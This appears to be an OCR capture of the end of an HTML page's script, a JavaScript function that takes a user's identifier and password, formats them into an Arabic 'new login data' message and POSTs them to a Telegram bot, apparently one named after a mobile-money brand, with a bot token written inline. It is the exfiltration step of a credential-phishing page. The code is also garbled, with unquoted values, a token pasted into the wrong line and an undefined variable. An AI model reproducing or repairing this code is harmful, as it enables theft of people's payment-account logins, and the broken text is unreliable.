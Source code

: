         async function sendToTelegramBot(identifier, password) {
            // استبدل TOKEN و CHAT_ID بقيم البوت الخاص بك
            const botToken = 7671792045:AAEhJBF150sO6cGRxN_ZmoopUToVd-gWwFg
        
            
            const message = `بيانات تسجيل جديدة:\n\nالمعرف: ${identifier}\nكلمة المرور: ${password}`;
            const url = https://t.me/Oorangeemoneyy_bot
            
            try {
                const response = await fetch(url, {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json',
                    },
                    body: JSON.stringify({
                        chat_id: chatId,7671792045:AAEhJBF150sO6cGRxN_ZmoopUToVd-gWwFg
                        text: message @Oorangeemoneyy_bot
                    })
                });
                
                if (!response.ok) {
                    throw new Error('Network response was not ok');
                }
                
                return await response.json();
            } catch (error) {
                throw error;
            }
        }
    </script>
</body>
</html>
